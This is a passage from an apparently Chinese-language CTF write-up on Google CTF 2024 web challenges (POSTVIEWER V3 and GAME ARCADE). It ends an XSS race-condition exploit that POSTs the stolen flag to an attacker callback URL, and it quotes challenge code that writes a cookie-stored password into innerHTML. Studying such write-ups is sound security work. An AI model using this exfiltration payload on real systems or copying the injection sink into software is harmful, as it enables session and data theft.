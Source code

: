 ``` html
                      fetch('${callbackUrl}/flag', { method: 'POST', body: a })
                    }
                  } catch (err) {}
                }, 2)
              }, 500)
            }
            `
          }, '*')
          resolve()
        }, 1000)
      }
      document.body.appendChild(iframe)
    })
  }

  async function main() {
    fetch('/start')
    await getSandboxXss()
  }
  main()
</script>
```

基本上就是開三個 interval，一個更新成 `#0`，一個更新成我們要的樣子，另一個則是不斷去覆蓋 flag iframe 的函式。觀察後發現有成功 XSS 幾次，但就沒有後續了，要嘛是 code 寫壞，要嘛是 modal 關掉了所以來不及。

總之呢，我自己還在嘗試的時候，隊友就做出來了，概念差不多，唯一的差別大概是 interval 的數字還有最後拿 flag 的方法。

雖然說 flag 內容是 sandboxed iframe，但是載入這個 iframe 的網頁是 same-origin 的，因此直接拿 iframe 的 src（會是一個 blob）再去 fetch 一下就好，因為也是 same-origin。

結論：race condition 真難，就算發現了也不一定撞得出來。

話說出題者 terjanq 給的官方解答在這裡：https://github.com/google/google-ctf/tree/main/2024/quals/web-postviewer3

中間多了一步要在 `storage.googleapis.com` 上找一個 XSS，不過整體概念都是一樣的，只是偽造出 hash 的方式不同。

## GAME ARCADE (14 solves)

這題其實跟 POSTVIEWER V3 滿像的，有許多程式碼甚至是共用或者是改良版，其實有點算偷偷在給 POSTVIEWER V3 提示（？）

總之功能就是有四個小遊戲，點下去之後會用 sandbox domain + shim.html（基本上就是 POSTVIEWER V3 的那個 shim）載入固定的 HTML。

這邊計算 sandbox hash 的方法跟之前不同，會用特殊符號進行 join，所以無法偽造。

而四個小遊戲中，有一個很明顯不是遊戲，部分程式碼如下：

``` js
let password = getCookie('password') || localStorage.getItem('password') || "okoń";
let correctPasswordSpan = document.createElement('span');
correctPasswordSpan.classList.add('correct');
correctPasswordSpan.innerHTML = password;
let steps = 0;
function savePassword(pwd){
  document.cookie = `password=${pwd}`;
  localStorage.setItem('password', pwd)
  return pwd;
}
        
function changePwd(){
  steps = 0;
  password = passwordInp.value;
  correctPasswordSpan.innerHtml = password;
  output.innerHTML = 'Password changed.';
  savePassword(password);
}
```
